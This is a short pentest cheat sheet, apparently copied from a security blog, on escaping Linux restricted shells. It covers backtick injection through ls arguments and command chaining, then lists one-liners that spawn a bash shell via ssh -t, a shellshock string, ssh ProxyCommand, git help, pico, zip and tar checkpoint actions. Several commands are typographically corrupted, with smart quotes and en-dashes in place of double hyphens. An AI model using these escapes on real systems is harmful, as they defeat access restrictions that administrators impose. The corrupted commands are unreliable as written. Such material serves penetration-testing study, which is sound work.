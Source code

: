 # Escaping Restricted Shells

## Escaping

### Command injection
Imagine that we are in a restricted shell that allows us to execute commands by passing them as arguments to the ls command. Unfortunately, the shell only allows us to execute the ls command with a specific set of arguments, such as ls -l or ls -a, but it does not allow us to execute any other commands. In this situation, we can use command injection to escape from the shell by injecting additional commands into the argument of the ls command.

For example, we could use the following command to inject a pwd command into the argument of the ls command:

### Escaping Restricted Shells

```bash
ls -l `pwd` 
```

### Command Chaining
In some cases, it may be possible to escape from a restricted shell by using command chaining. We would need to use multiple commands in a single command line, separated by a shell metacharacter, such as a semicolon (;) or a vertical bar (|), to execute a command. For example, if the shell allows users to execute commands separated by semicolons, it may be possible to escape from the shell by using a semicolon to separate two commands, one of which is not restricted by the shell.

### Advanced Techniques
Now let’s move into some dirty advance techniques.

```bash
# From ssh >
ssh username@IP – t “/bin/sh” or “/bin/bash”

# From ssh2 >
ssh username@IP -t “bash –noprofile”

# From ssh3 >
ssh username@IP -t “() { :; }; /bin/bash” (shellshock)

# From ssh4 >
ssh -o ProxyCommand=”sh -c /tmp/yourfile.sh” 127.0.0.1 (SUID)

# From git >
git help status > you can run it then !/bin/bash

# From pico >
pico -s “/bin/bash” then you can write /bin/bash and then CTRL + T

# From zip >
zip /tmp/test.zip /tmp/test -T –unzip-command=”sh -c /bin/bash”

# From tar >
tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash
```

--------------------------------
https://vk9-sec.com/linux-restricted-shell-bypass/